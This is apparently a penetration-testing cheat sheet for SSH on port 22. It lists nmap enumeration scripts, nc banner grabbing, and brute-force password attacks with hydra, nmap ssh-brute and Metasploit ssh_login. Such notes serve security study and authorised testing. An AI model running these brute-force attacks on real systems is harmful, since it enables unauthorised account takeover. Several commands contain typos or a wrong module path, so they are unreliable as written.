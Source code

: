 # iii - SSH - 22

`nmap $ip -p22 -sV -O` - service version scan for ssh.

`nc  $ip 22` - for SSH banner grabbing.

`nmap $ip -p22 --script ssh2-enum-algos` - enumerating all the supported algorithms.

`nmap $ip -p22 --script ssh2-hostkey --scrip-args ssh_hostkey=full` - enumerating the victim's full SSH rsa host key.

\``nmap $ip -p22 --script ssh-auth-methods --script-args="ssh.user=admin"` - enumerating all the supported authentication methods.

## SSH Dictionary  Attacks using \[hydra]

You could run hydra with a users wordlists and specify empty passwords, to see if there are any user with no password.

`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -p "" $ip ssh` - bruteforcing for users without password.

You can run the normal attack with users and passwords wordlists too.

\`hydra -L /usr/share/`metasploit-framework/data/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt $ip ssh` - specified users and password wordlists.

## Bruteforce with \[nmap] utility

```bash
# you might want to check for specific users like: "root", "admin" or "administrator"
# so you can save them to a file as "user" wordlist file.
echo "administrator" > user
# "/root" is the path the "user" file is stored
nmap 4ip -p22 --script ssh-brute --script-args userdb=/root/user
```

## Bruteforce with \[msfconsole] Metasploit

```bash
use auxiliary/ssh/ssh_login
show options
set RHOSTS $ip
set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
options   # verify options are specified correctly.
run
```







